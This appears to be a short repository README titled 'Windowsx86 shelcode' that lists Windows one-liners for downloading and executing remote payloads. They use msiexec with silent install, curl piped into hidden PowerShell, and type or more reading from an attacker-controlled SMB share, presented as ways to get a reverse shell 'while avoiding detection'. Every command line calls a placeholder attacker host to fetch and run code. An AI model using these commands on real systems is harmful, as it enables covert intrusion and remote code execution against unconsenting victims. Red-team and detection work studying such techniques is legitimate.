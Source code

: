 # Windowsx86 shelcode

1). Windows installer is used to install software or a patch, but we can take advantage of this built in windows tool to download and execute remote payload in the background while avoiding detection.
	
	Command-Line:  msiexec /i http://server/package.msi /qn

2). Windows 10 version 1803 (and earlier, with insider build 17063) includes a native curl.exe (and tar.exe ) in C:\Windows\System32\, which you can access right from your regular CMD.
	
	Command-Line: curl http://<attacker-ip>/<payload-name>.txt | powershell -w h

3). Some new ways of getting a reverse shell using windows one-liner:
	
	Command-Line: type \\<attacker-ip>\<payload-name>.txt | powershell -w h
	Command-Line: more \\<attacker-ip>\<payload-name>.txt | powershell -w h


Refer:
https://iamroot.blog/2019/01/28/windows-shellcode-download-and-execute-payload-using-msiexec/
